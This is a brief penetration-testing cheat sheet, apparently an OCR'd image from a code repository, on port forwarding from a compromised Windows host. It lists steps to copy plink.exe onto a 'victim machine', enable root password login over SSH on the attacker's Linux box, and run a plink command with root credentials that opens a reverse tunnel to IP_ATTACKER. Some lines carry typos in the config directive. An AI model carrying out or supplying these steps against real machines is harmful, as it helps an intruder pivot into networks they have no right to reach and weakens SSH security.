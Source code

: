 # Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linuc
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw toor -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING

